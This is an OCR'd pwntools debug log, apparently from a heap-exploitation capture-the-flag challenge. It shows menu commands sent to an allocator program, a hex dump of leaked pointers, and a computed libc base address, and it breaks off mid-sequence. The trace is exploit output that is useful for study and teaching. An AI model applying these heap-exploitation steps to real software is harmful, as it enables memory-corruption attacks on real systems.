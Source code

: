```c
    '3. Free\n'
    '4. Dump\n'
    '5. Exit\n'
    'Command: '
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Received 0x7 bytes:
    'Index: '
[DEBUG] Sent 0x2 bytes:
    '4\n'
[DEBUG] Received 0x35 bytes:
    '1. Allocate\n'
    '2. Fill\n'
    '3. Free\n'
    '4. Dump\n'
    '5. Exit\n'
    'Command: '
[DEBUG] Sent 0x2 bytes:
    '4\n'
[DEBUG] Received 0x7 bytes:
    'Index: '
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x50 bytes:
    00000000  43 6f 6e 74  65 6e 74 3a  20 0a 78 1b  dd f7 ff 7f  │Cont│ent:│ ·x·│····│
    00000010  00 00 78 1b  dd f7 ff 7f  00 00 0a 31  2e 20 41 6c  │··x·│····│···1│. Al│
    00000020  6c 6f 63 61  74 65 0a 32  2e 20 46 69  6c 6c 0a 33  │loca│te·2│. Fi│ll·3│
    00000030  2e 20 46 72  65 65 0a 34  2e 20 44 75  6d 70 0a 35  │. Fr│ee·4│. Du│mp·5│
    00000040  2e 20 45 78  69 74 0a 43  6f 6d 6d 61  6e 64 3a 20  │. Ex│it·C│omma│nd: │
    00000050
[*] libc_base: 0x7ffff7a0d000
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x6 bytes:
    'Size: '
[DEBUG] Sent 0x3 bytes:
    '96\n'
[DEBUG] Received 0x46 bytes:
    'Allocate Index 4\n'
    '1. Allocate\n'
    '2. Fill\n'
    '3. Free\n'
    '4. Dump\n'
    '5. Exit\n'
    'Command: '
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Received 0x7 bytes:
    'Index: '
[DEBUG] Sent 0x2 bytes:
    '4\n'
[DEBUG] Received 0x35 bytes:
    '1. Allocate\n'
    '2. Fill\n'
    '3. Free\n'
    '4. Dump\n'
    '5. Exit\n'
    'Command: '
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x7 bytes:
    'Index: '
[DEBUG] Sent 0x2 bytes:
```